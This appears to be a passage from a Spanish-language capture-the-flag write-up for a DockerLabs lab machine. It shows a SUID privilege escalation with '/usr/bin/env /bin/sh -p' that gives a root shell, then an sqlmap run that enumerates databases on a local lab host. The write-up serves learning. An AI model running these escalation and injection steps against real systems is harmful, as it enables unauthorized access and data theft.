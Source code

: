 ![GTFOBins](https://github.com/JavieRR13/WriteUps/blob/8db246ecc76e6e57d754306c4eec3ef6f68a4b97/DockerLabs/Muy%20f%C3%A1cil/Injection/Im%C3%A1genes/GTOBins_env.png)

En nuestro caso nos interesa el apartado de SUID, por lo que nos dirigiremos a la terminal y probaremos el comando aportado.
```ruby
dylan@127ef1d0b8b9:~$ /usr/bin/env /bin/sh -p
# whoami
root
```
🥳CONSEGUIDO, SOMOS ROOT🥳
### 2. SQLmap
Primero debemos rellenar el cuestionario con datos aleatorios, esto actualizará la url de la página en el navegador y nos añadirá el subdominio *172.17.0.2/index.php*. Ahora, una vez que sabemos como se llama la página del formulario, nos dirigiremos a la terminal y con la herramienta [SQLmap](https://github.com/sqlmapproject/sqlmap) buscaremos todas las bases de datos que se encuentren en este sistema.

```bash
> sqlmap -u http://172.17.0.2/index.php --forms --dbs --batch
[20:07:01] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 22.04 (jammy)
web application technology: Apache 2.4.52
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[20:07:01] [INFO] fetching database names
[20:07:01] [INFO] retrieved: 'information_schema'
[20:07:01] [INFO] retrieved: 'register'
[20:07:01] [INFO] retrieved: 'sys'
[20:07:01] [INFO] retrieved: 'mysql'
[20:07:01] [INFO] retrieved: 'performance_schema'
available databases [5]:
```